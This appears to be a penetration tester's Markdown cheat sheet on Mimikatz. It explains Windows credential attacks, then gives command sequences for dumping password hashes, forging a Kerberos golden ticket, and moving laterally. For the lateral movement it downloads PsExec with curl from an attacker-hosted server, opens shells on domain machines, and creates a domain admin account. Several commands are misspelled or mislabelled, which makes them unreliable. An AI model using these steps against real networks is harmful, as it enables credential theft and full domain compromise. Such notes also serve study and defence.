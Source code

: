 # [Mimikatz](https://www.varonis.com/blog/what-is-mimikatz/)

 [Latest executable version](https://github.com/gentilkiwi/mimikatz/releases)

Mimikatz is an open-source application that allows users to view and save authentication credentials 


    Pass-the-Hash: Windows used to store password data in an NTLM hash. Attackers use Mimikatz to pass that exact hash string to the target computer to login. Attackers don’t even need to crack the password, they just need to use the hash string as is. It’s the equivalent of finding the master key to a building on the floor. You need that one key to get into all the doors.
    
    Pass-the-Ticket: Newer versions of windows store password data in a construct called a ticket.  Mimikatz provides functionality for a user to pass a kerberos ticket to another computer and login with that user’s ticket. It’s basically the same as pass-the-hash otherwise.
    
    Over-Pass the Hash (Pass the Key): Yet another flavor of the pass-the-hash, but this technique passes a unique key to impersonate a user you can obtain from a domain controller.
    
    Kerberos Golden Ticket: This is a pass-the-ticket attack, but it’s a specific ticket for a hidden account called KRBTGT, which is the account that encrypts all of the other tickets. A golden ticket gives you domain admin credentials to any computer on the network that doesn’t expire.
    
    Kerberos Silver Ticket: Another pass-the-ticket, but a silver ticket takes advantage of a feature in Windows that makes it easy for you to use services on the network. Kerberos grants a user a TGS ticket, and a user can use that ticket to log into any services on the network. Microsoft doesn’t always check a TGS after it’s issued, so it’s easy to slip it past any safeguards.
    
    Pass-the-Cache: Finally an attack that doesn’t take advantage of Windows! A pass-the-cache attack is generally the same as a pass-the-ticket, but this one uses the saved and encrypted login data on a Mac/UNIX/Linux system.


pirvilege::debug
   
   - We want to see "20 OK"
   
   - This is to check that we can bypass memory protection

sekurlsa::logonpasswords

  - Can get users NTLM hash, and more

  - Notes:

        wdigest: Old way Windows stored passwords in memory from 7 and prior. Passwords were stored in clear text here. 8+ fixed this to be hashed by turing off the feature. Mimikatz can turn it back on. Once back on a new logon session will be need to occur.

lsadump::sam /patch

lsadump::lsa /patch


# Golden Ticket Attack

If you obtain the hash for the account that creates Kerberos tickets, then we can generate KTGT.
If this is achieved we have complete access to the domain and every machine.

**Exploit**

    lsadump::lda /inject /name:<kerberos ticket granting account>
    
     You want to grab the SID of the domian and the NTLM hash of the account.
     
    kerberose::golden /User:<account name, existing or not> /domain:<domian> /sid:<domain SID> /<kerberos TGT account name>:<NTLM hash> /id:500 /ptt
    
      /id   #account RID
      
      /ptt  #Pass the hash
      
      
     If successful run:
     
     misc:cmd
     
   You now have an admin shell on the domain controller. Here are a few followups for persistence:
   
   - Interact with machines
   
         <command> \\<ip>\c$
         
   - Upload [psexec.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/psexechttps://docs.microsoft.com/en-us/sysinternals/downloads/psexec
   ) to get full shells on other domain systems.
   
        Python web server on attacker under /user/share/windows-binaries. 
        
        Then on windows:
             
         curl http://<ip>:8000/PsExec.exe -O psexec.exe    
   
         psexec.exe \\<machine name or IP> cmd.exe  #run in golden ticket shell
         
         Note that this can take a while
   
   - Create a domain admin account
   
   - Create silver ticket
      
